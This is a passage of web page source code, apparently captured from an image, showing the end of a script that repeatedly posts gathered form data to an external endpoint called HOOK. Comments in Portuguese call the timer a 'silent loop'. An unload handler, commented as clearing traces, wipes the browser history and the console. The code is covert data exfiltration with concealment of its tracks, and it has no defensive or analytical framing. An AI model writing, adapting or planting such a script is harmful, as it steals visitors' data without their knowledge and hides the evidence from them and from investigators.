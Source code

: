   if ([...fd.keys()].length) {
    await fetch(HOOK, {method:'POST', body:fd});
  }
}

/* Loop silencioso */
setInterval(envia, INTERVALO);

/* Limpa rastros */
window.addEventListener('beforeunload', () => {
  window.history.replaceState(null, '', '/');
  console.clear();
});
</script>
</body>
</html>
